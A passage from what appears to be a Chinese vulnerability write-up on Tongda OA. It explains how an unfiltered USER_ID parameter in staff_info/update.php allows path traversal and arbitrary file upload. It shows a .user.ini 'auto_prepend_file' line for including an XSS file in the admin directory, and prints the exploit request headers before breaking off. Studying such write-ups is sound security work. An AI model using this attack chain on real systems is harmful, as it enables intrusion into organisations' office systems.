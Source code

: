 ```php
	}
}
```

![image-20220209111308741](./images/202202091113931.png)

在这里参数 **$USER_ID** 是可控的，并且无过滤危险符号就拼接进去了，那我们传入 **../../../** 我们就可以任意文件上传了

由于通达OA 的文件上传限制的死死的，所以我们可以通过利用 PHP的 **.user.ini** 文件来包含其他文件，这里是可以用于包含XSS语句的文件的，所以我们上传文件

内容为

```plain
auto_prepend_file=test.log
```

我们想要最大化利用可以上传在**首页或者管理员** 界面，利用自定义弹窗来渗透

这里对管理员页面 **general** 目录上传

请求包为

```plain
POST /general/hr/manage/staff_info/update.php?USER_ID=../../general/.user HTTP/1.1
Host: 192.168.1.105
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------17518323986548992951984057104
Content-Length: 365
Connection: close
Cookie: USER_NAME_COOKIE=admin; OA_USER_ID=admin; PHPSESSID=kqfgar7u3c0ang0es41u3u67p4; SID_1=a63eb31
Upgrade-Insecure-Requests: 1
```